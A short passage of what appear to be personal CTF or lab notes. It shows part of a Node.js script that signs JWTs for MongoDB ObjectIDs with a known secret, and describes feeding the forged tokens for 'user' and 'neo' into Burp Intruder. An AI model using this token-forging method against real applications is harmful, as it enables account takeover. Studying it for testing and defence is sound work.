 ```

.split('\n')

.filter(line => line.trim() !== '');

  

const tokens = objectIds.map(id => {

// Create payload with ObjectID

const payload = { objectId: id };

  

// Sign JWT with your secret key

const token = jwt.sign(payload, SECRET_KEY, { expiresIn: '1h' });

  

return token;

});

  

// Write tokens to output file

fs.writeFileSync(outputFile, tokens.join('\n'));

  

console.log(`Converted ${tokens.length} ObjectIDs to JWTs.`);
```

To run:

```
node convert-ids-to-jwt.js
```

I had to make sure that I had both of the mongoDB object Id's from user and neo converted. So basically 2 output.txt files and I with node I had to change the file name for both user and neo JWT tokens.

Now with burp intrude I have changed the JWT tokens. I configured the payloads with the converted txt files.

---

Here is a overview:

![[2025-06-28_11-07.png]]
